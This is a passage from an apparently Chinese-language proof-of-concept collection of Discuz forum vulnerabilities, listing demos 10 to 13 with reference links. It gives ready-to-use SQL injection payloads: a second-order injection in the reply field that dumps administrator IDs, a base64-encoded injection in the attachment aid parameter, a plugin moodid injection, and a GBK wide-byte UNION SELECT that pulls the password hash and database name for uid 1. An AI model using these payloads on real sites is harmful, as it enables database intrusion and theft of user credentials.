 ![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/16.png)

可以看到我们的注入语句被替换掉了，所以后面的检查字符的时候并没有发现注入语句。
参考链接：http://netsecurity.51cto.com/art/201303/386717.htm
#### 演示10：Discuz x1.5 x2.0 二次注射
访问

http://xxxxx/forum.php?mod=misc&tid={1}&action=postappend&pid={2}

进入回复主题界面。在发表回复的地方存在SQL注入。如输入“a',`subject`=(/*!select*/ group_concat(uid,':') from pre_common_member where groupid=1),comment='”。
刷新页面，可在主题回复中看到管理用户。

参考链接：https://www.webshell.cc/562.html
#### 演示11：Discuz! X2 forum_attachment.php sql注入漏洞
http://www.discuz.net/forum.php?mod=attachment&findpost=ss&aid=
链接中，aid参数存在SQL注入，但需要把SQL语句进行base64编码，如

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/17.png)

参考链接：https://www.cnblogs.com/devi1o/articles/4874822.html
#### 演示12：Discuz！7.2/X1 第三方插件SQL注入及持久型XSS漏洞
http://xxxxxxxx/plugin.php?id=moodwall&action=edit_mood&moodid=2

moodid存在SQL注入。

参考链接：https://www.seebug.org/vuldb/ssvid-93710
#### 演示13：Discuz!论坛wap功能模块编码的注射漏洞
http://xxxxxxx/space.php?username=
username存在SQL注入，但可能此处会把’过滤成\’，如果是GBK编码的话，可使用宽字节注入的思路绕过。如设置payload为：/space.php?username=%cf'%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,password,50,51,52,53,54,55,56,57,database(),59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84%20from%20cdb_members%20where%20uid=1/*
